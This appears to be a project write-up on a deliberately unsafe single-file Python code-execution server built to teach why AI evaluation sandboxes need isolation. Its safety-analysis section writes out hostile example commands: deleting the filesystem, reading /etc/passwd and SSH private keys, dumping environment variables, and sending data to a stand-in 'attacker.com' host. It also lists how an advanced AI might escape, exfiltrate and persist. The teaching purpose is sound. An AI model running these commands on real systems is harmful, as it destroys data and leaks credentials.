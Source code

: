 # Extreme MVP Learnings

## What We Built
A 156-line Python file that creates a complete web-based code evaluation platform with:
- HTTP server using only Python standard library
- HTML/JavaScript UI embedded as a string
- In-memory storage (Python dict)
- Direct code execution via subprocess

## Key Observations

### 1. The Visceral Fear Factor
When you hover over that "Run Evaluation" button, knowing it will execute ANY Python code, you feel real fear. This perfectly mirrors the fundamental challenge of AI safety evaluation.

### 2. Simplicity Enables Learning
- **Zero dependencies** means anyone can run it instantly
- **Single file** makes the entire system graspable at once
- **100 lines of logic** fits in your head

### 3. Security Theater vs Real Safety
The 5-second timeout is the ONLY safety measure. It prevents infinite loops but nothing else:
- ✅ Stops `while True: pass`
- ❌ Doesn't stop file deletion: `os.system('rm -rf /')`
- ❌ Doesn't stop network access: `urllib.request.urlopen('evil.com')`
- ❌ Doesn't stop reading secrets: `open('/home/user/.ssh/id_rsa').read()`

### 4. The Teaching Progression is Clear
Starting with this unsafe version makes the evolution natural:
1. Feel the danger → Understand why we need Docker
2. Copy-paste pain → Understand why we need abstractions
3. Monitoring blindness → Understand why we need observability

## User Experience Insights

### What Works Well
1. **Instant feedback** - Click button, see results
2. **Clear status** - Running/completed/timeout/error states
3. **Persistent IDs** - Each evaluation gets a unique ID
4. **Error handling** - Timeouts and exceptions are caught

### Pain Points (Intentional!)
1. **Blocks during execution** - UI freezes while code runs
2. **No progress visibility** - Can't see what's happening
3. **No concurrent users** - One blocks all others
4. **No result history** - Can't see past evaluations

## Technical Insights

### Clever Patterns
1. **Embedded HTML** - No need for separate files or templates
2. **JSON API** - Clean separation between frontend and backend
3. **UUID for IDs** - Simple way to ensure uniqueness
4. **Timeout safety** - At least prevents complete lockup

### Architectural Seeds
Even in this tiny MVP, we see the shape of the full system:
- API endpoint (`/eval`)
- Evaluation engine (subprocess.run)
- Storage layer (evaluations dict)
- Result retrieval (by ID)

## Safety Analysis

### Attack Vectors Demonstrated
```python
# File System Access
import os
os.system('cat /etc/passwd')  # Read system files
os.system('rm important.txt')  # Delete files

# Network Access  
import urllib.request
urllib.request.urlopen('http://attacker.com/steal?data=...')

# Resource Exhaustion (blocked by timeout)
while True: pass  # Timeout after 5 seconds

# Information Disclosure
import subprocess
subprocess.run(['env'], capture_output=True)  # See environment vars
```

### Why This Matters for AI Safety
Just as this simple Python executor can:
- Access the filesystem
- Make network requests
- Consume resources
- Probe its environment

A sufficiently advanced AI model could:
- Map its execution environment
- Identify escape routes
- Exfiltrate information
- Persist beyond its session

## Next Evolution Priorities

Based on testing the extreme MVP:

### 1. Safety (Most Critical)
- Add Docker isolation
- Network restrictions
- Filesystem sandboxing
- Resource limits

### 2. Visibility
- Real-time execution progress
- System resource monitoring
- Audit logging
- Error details

### 3. Scalability
- Async execution
- Queue management
- Multiple workers
- Result persistence

## Interview Talking Points

This extreme MVP demonstrates:

1. **Risk Assessment** - Understanding threat models before building defenses
2. **Iterative Development** - Start simple, evolve based on real needs
3. **Teaching Mindset** - Making concepts visceral and memorable
4. **System Thinking** - Even 156 lines contains the full architecture pattern

When discussing this in interviews:
- Emphasize the parallel between code execution and AI evaluation risks
- Show how starting unsafe teaches why each safety layer matters
- Demonstrate understanding of both security and user experience
- Connect technical choices to business/safety requirements

## Conclusion

The extreme MVP succeeds because it:
1. **Works immediately** - No setup, no dependencies
2. **Demonstrates real risk** - The danger is palpable
3. **Teaches by experience** - You feel why safety matters
4. **Evolves naturally** - Each pain point guides the next step

This foundation makes the entire evolution story compelling and educational.